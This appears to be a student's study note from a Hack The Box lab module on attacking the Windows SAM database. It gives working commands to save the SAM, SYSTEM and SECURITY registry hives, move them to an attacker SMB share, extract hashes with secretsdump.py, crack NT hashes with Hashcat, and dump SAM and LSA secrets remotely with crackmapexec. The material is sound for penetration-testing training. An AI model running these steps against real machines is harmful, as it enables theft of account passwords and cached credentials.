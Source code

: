 
SAM aka Security account manager is a database file that stores hashed user account passwords for the local system
it is located at
C:\Windows\System32\config\SAM

With admin rights on a machine you can retrieve the hash passwords. You can easily dump this through a metrepreter shell

the hashes inside SAM are usually stored in NTLM hash format


## Copying SAM registry 

there are three registry hives we can copy if we have local admin access on the target; each will have a specific purpose where we can get to dumping and cracking the hashes. Here is a brief description


|                 |                                                                                                                                                            |
| --------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `hklm\sam`      | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| `hklm\system`   | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                              |
| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.                                        |


We can create backups of these hives using the reg.exe utility


## Using reg.exe save to copy registry hives

Launching CMD as admin will allow us to run reg.exe to save copies of the aforementioned registry hives. Run these commands below to do so.

```cmd-session
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```


Technically we will only need `hklm\sam` & `hklm\system`, but `hklm\security` can also be helpful to save as it can contain hashes associated with cached domain user account credentials present on domain-joined hosts. Once the hives are saved offline, we can use various methods to transfer them to our attack host. In this case, let's use [Impacket's smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) in combination with some useful CMD commands to move the hive copies to a share created on our attack host.


## Creating a share with smbserver.py
*Remember SMB or a server message block is a network protocol used for sharing files, folders printers and more anything with \\ip\share is a smb block*

All we must do to  create the share is run smbserver.py -smb2support .
using python and give the share a name (CompData) and specify the directory on our attack host where the share will be storing the hive copies (/home/ltnbob/Documents). Know that the smb2support option will ensure new version of SMB are supported if we dont use this flag their will be errors as new versions of windows dont support SMBv1.



```shell-session
JackTheWizard@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Once we have the share running on our attack host, we can use the `move` command on the Windows target to move the hive copies to the share.

#### Moving Hive Copies to Share

Attacking SAM

```cmd-session
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```

Then we can confirm that our hive copies successfully moved to the share by navigating to the shared directory on our attack host and using `ls` to list the files.


## Dumping hashes using ImPackets secretsdump.py

One incredibly useful tool we can use to dump the hashes offline is Impacket's `secretsdump.py`. Impacket can be found on most modern penetration testing distributions. We can check for it by using `locate` on a Linux-based system:


Using secretsdump.py is a simple process. All we must do is run secretsdump.py using Python, then specify each hive file we retrieved from the target host.

#### Running secretsdump.py

Attacking SAM

```shell-session
JackTheWizard@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```


Here we see that secretsdump successfully dumps the `local` SAM hashes and would've also dumped the cached domain logon information if the target was domain-joined and had cached credentials present in hklm\security. Notice the first step secretsdump executes is targeting the `system bootkey` before proceeding to dump the `LOCAL SAM hashes`. It cannot dump those hashes without the boot key because that boot key is used to encrypt & decrypt the SAM database, which is why it is important for us to have copies of the registry hives we discussed earlier in this section. Notice at the top of the secretsdump.py output:

Attacking SAM

```shell-session
Dumping local SAM hashes (uid:rid:lmhash:nthash)
```

This tells us how to read the output and what hashes we can crack. Most modern Windows operating systems store the password as an NT hash. Operating systems older than Windows Vista & Windows Server 2008 store passwords as an LM hash, so we may only benefit from cracking those if our target is an older Windows OS.

Knowing this, we can copy the NT hashes associated with each user account into a text file and start cracking passwords. It may be beneficial to make a note of each user, so we know which password is associated with which user account.

so for example

```shell-session
sam:1002:aad3b435b51404eeaad3b435b51404ee:6f8c3f4d3869a10f3b4f0522f537fd33:::
```



so since most windows computers use the NT hash 6f8c3f4d3869a10f3b4f0522f537fd33 is the hash we use. Its not like we need to use both but they display it in both formats as some older windows systems use LM hashes

✅ **Modern Windows only really uses the NT hash** — that `6f8c3f4d3869a10f3b4f0522f537fd33` part. 

Here we see that secretsdump successfully dumps the `local` SAM hashes and would've also dumped the cached domain logon information if the target was domain-joined and had cached credentials present in hklm\security. Notice the first step secretsdump executes is targeting the `system bootkey` before proceeding to dump the `LOCAL SAM hashes`. It cannot dump those hashes without the boot key because that boot key is used to encrypt & decrypt the SAM database, which is why it is important for us to have copies of the registry hives we discussed earlier in this section. Notice at the top of the secretsdump.py output:



#### Running Hashcat against NT Hashes

Hashcat has many different modes we can use. Selecting a mode is largely dependent on the type of attack and hash type we want to crack. Covering each mode is beyond the scope of this module. We will focus on using `-m` to select the hash type `1000` to crack our NT hashes (also referred to as NTLM-based hashes). We can refer to Hashcat's [wiki page](https://hashcat.net/wiki/doku.php?id=example_hashes) or the man page to see the supported hash types and their associated number. We will use the infamous rockyou.txt wordlist mentioned in the `Credential Storage` section of this module.




## Remote Dumping & LSA Secrets Considerations

With access to credentials with `local admin privileges`, it is also possible for us to target LSA Secrets over the network. This could allow us to extract credentials from a running service, scheduled task, or application that uses LSA secrets to store passwords.

#### Dumping LSA Secrets Remotely
HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Secrets
**LSA** (Local Security Authority)
**LSA Secrets** = "Here are **passwords and tokens** Windows saved for services, VPNs, cached logins, and other stuff."

```shell-session
JackTheWizard@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```


#### Dumping SAM Remotely
**SAM** = "Here are the **password hashes** for all user accounts."
We can also dump hashes from the SAM database remotely.

Attacking SAM

```shell-session
JackTheWizard@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

*we use netexec which is the newer version of crackmapexec*

